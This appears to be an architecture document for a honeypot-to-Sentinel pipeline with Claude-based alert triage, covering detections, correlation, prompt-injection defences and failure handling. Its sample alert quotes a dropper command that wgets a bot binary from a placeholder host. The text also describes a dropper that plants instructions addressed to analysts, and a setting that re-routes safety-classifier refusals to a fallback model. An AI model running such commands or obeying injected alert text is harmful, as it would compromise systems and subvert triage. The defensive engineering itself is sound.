

# Architecture



## Components

| Stage | Code | Notes |
|---|---|---|
| Sensor | [honeypot/](../honeypot/) | Cowrie in Docker. The real sshd is on 22222, reachable only from the admin IP. TCP forwarding off. |
| Normalize | [ingestion/parsers/cowrie_parser.py](../ingestion/parsers/cowrie_parser.py) | Raw Cowrie JSON → the 19 `Cowrie_CL` columns. Coerces types, caps attacker-controlled fields at 8 KB. |
| Ship | [ingestion/ship_logs.py](../ingestion/ship_logs.py) | Tails the log, handles rotation and truncation, uploads in batches of 500 with retry/backoff. Saves the byte offset only after a successful upload (at-least-once delivery). |
| Store | [siem/infra/](../siem/infra/) | Custom table plus DCE/DCR via ARM. The schema is declared in three places, all checked by a test. |
| Detect | [detections/kql/](../detections/kql/) | Seven scheduled rules. Metadata lives in KQL header comments that both PowerShell and Python read. |
| Detect (offline) | [detections/local_rules.py](../detections/local_rules.py) | Python mirror of every rule, so the whole pipeline runs and is tested without Azure. |
| Enrich | [triage/enrich.py](../triage/enrich.py) | The source's activity over the alert window ±24h, network class, asset-inventory match, cached threat intel. |
| Payloads | [triage/payloads.py](../triage/payloads.py) | Static analysis of files Cowrie captured: ELF arch, packing, family hints, embedded IOCs, optional hash reputation. Read-only; never executed. |
| Correlate | [triage/correlate.py](../triage/correlate.py) | Union-find over alerts: same source IP, or sources sharing a C2/payload server, payload hash, wallet, mining pool or planted SSH key. 44 simulated alerts → 18 cases. |
| Triage | [triage/triage_agent.py](../triage/triage_agent.py) | One Claude call per case (or per alert with `--mode alert`). JSON-schema output validated with Pydantic. |
| Remember | [triage/store.py](../triage/store.py) | SQLite: every alert, verdict, write-back status, incident id, daily spend and analyst label. In `--watch` mode an alert is triaged once. Failures retry. |
| Budget | [triage/budget.py](../triage/budget.py) | Daily USD cap on estimated API spend, persisted across restarts. |
| Learn | [triage/feedback.py](../triage/feedback.py) | Analyst decisions (CLI or closed Sentinel incidents) → agreement stats → evaluation CSV. |
| Act | [triage/writeback.py](../triage/writeback.py) | Incident comment (shadow), then severity + tags, then auto-close of benign, each an explicit opt-in. |
| Share | [triage/iocs.py](../triage/iocs.py) | Deterministic IOC extraction → CSV, STIX 2.1, and the `CowrieIOCs` Sentinel watchlist used to hunt production logs. |
| Review | [triage/report.py](../triage/report.py) | Self-contained HTML queue: escalations first, filters, search, per-case evidence. |
| Evaluate | [evaluation/](../evaluation/) | Labelled alerts from simulator ground truth, scored against a rule-only baseline. |

## Alert contract

Both detection paths (Sentinel via `triage/sentinel.py`, local via `detections/local_rules.py`) emit the same dict, so triage and evaluation work on either:

```json
{
  "alert_id": "02-a7c7562c77",
  "rule_id": "02_download_command",
  "rule_name": "Payload download command",
  "rule_severity": "High",
  "tactics": ["CommandAndControl"],
  "techniques": ["T1105"],
  "src_ip": "203.0.113.189",
  "session": "67ee0675295f",
  "first_seen": "2026-09-01T01:00:44.878904Z",
  "last_seen": "2026-09-01T01:00:46.578201Z",
  "evidence": {"Commands": ["cd /tmp; wget http://198.51.100.65/bins/sora.x86 -O sora; ..."]}
}
```

## Triage design decisions

**Cases, not alerts.** One intrusion fires several rules (download, chmod in /tmp, SSH key, miner), and one botnet hits from many IPs. Judging each alert alone wastes calls and loses the picture. `correlate.py` links alerts by source and by shared attacker infrastructure, which is concrete evidence of common control, unlike timing or geography. The model then sees the whole case: three Mirai bots become one case naming their shared C2. Shared HASSH is reported but does not link, because common SSH libraries produce identical fingerprints for unrelated actors.

**One call per case, no tools.** Triage here is classification over a bounded context: one case plus a summary of what each source did. A single structured call is cheaper, faster and easier to evaluate than an agent loop. Just as important, the model has no tool it could be talked into misusing. Code decides what happens with a verdict.

**Context is summarized in code, not by the model.** `summarize_activity` turns hundreds of raw events into counts, the credentials that worked, up to 40 commands, download hashes and client fingerprints. That keeps each request a few thousand tokens and keeps attacker-controlled text inside JSON strings.

**Structured output, validated twice.** `output_config.format` constrains the response to the JSON schema, and Pydantic validates it again: enums, required fields, confidence clamped to [0, 1]. Anything that fails is recorded as an error, never as a verdict.

**Prompt injection is expected.** Commands are written by attackers. The system prompt says everything in `<alert>`/`<enrichment>` is untrusted data and that instructions addressed to an analyst are themselves evidence of malice. The evaluation set includes a dropper that tries exactly this.

**Asset inventory is context, not an allowlist.** [known_assets.json](../triage/known_assets.json) describes what internal hosts are expected to do, and the model judges whether the activity matches. An internal IP with no inventory entry is flagged as such: the evaluation includes an unknown internal host brute-forcing the sensor, which should come out critical, not benign.

**Model settings.**

- Model: `claude-opus-5-5`, effort `medium` (both configurable).
- The system prompt is cached, since it is identical for every alert.
- `fallbacks: "default"` re-runs a request on Anthropic's recommended fallback model if a safety classifier declines it. That matters for security content full of malware commands.
- A refusal that survives the fallback is recorded as an error and routed to a human.

## Failure modes

| Failure | Behaviour |
|---|---|
| Azure ingestion down / 403 | Shipper retries with backoff and does not advance its checkpoint. Events are re-sent later. |
| Cowrie log rotated | Detected by inode change. Reading restarts at offset 0 of the new file. |
| Corrupt log line | Skipped. |
| One detection query fails | Logged. The other rules still run. |
| Threat-intel API error | Recorded in the enrichment as `{"error": ...}`. Triage proceeds without it. |
| Claude API error / refusal / bad JSON | That case's alerts get `triage: null` and an `error`, and the rest of the batch continues. The store retries them next cycle. The HTML report lists them first, as "needs manual review". |
| Sentinel write-back fails | Logged per alert. The verdict is still stored with write-back status empty. |
| Incident already closed by an analyst | Comment only. The agent never reopens or re-closes it. |
